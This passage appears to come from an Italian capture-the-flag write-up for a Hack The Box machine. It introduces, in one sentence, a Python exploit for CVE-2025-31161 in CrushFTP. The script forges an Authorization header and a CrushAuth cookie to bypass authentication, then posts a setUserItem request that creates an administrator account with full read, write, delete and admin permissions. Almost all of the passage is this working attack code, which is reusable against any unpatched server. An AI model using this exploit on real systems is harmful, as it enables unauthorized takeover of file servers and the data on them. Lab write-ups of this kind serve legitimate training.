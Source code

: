 Si costruisce ed esegue uno script per la creazione di un account con i privilegi di amministratore sfruttando la vulnerabilita'.

`CVE-2025-31161/exploit.py`
 
```python

import requests

url = "http://ftp.soulmate.htb:80/WebInterface/function/"
cookies = {"CrushAuth": "1743113839553_vD96EZ70ONL6xAd1DAJhXMZYMn1111"}
headers = {"Authorization": "AWS4-HMAC-SHA256 Credential=crushadmin/"}

c2f = cookies["CrushAuth"][-4:] # CrushAuth last 4 chars

username = 'user'; password = 'user'; 

payload = {
    "command": "setUserItem",
    "data_action": "replace",
    "serverGroup": "MainUsers",
    "username": username,
    "user": f'''<?xml version="1.0" encoding="UTF-8"?>
<user type="properties">
  <user_name>{username}</user_name>
  <password>{password}</password>
  <extra_vfs type="vector"></extra_vfs>
  <version>1.0</version>
  <root_dir>/</root_dir>
  <userVersion>6</userVersion>
  <max_logins>0</max_logins>
  <site>(SITE_PASS)(SITE_DOT)(SITE_EMAILPASSWORD)(CONNECT)</site>
  <created_by_username>crushadmin</created_by_username>
  <created_by_email></created_by_email>
  <created_time></created_time>
  <password_history></password_history>
  <admin>true</admin>
</user>''',
    "xmlItem": "user",
    "vfs_items": '<?xml version="1.0" encoding="UTF-8"?><vfs type="vector"></vfs>',
    "permissions": '<?xml version="1.0" encoding="UTF-8"?><VFS type="properties"><item name="/">(read)(write)(view)(delete)(resume)(makedir)(deletedir)(rename)(admin)</item></VFS>',
    "c2f": c2f
}

print("\nCVE-2025-31161")

resp=requests.post(url, headers=headers, cookies=cookies, data=payload)

print(f"\nResponse\n===============================\n{resp.text}")

if "<response_status>OK</response_status>" in resp.text:
    print(f"[+] Created a new user {username}:{password}\n")
else:
    print("[-] Errors\n")

```
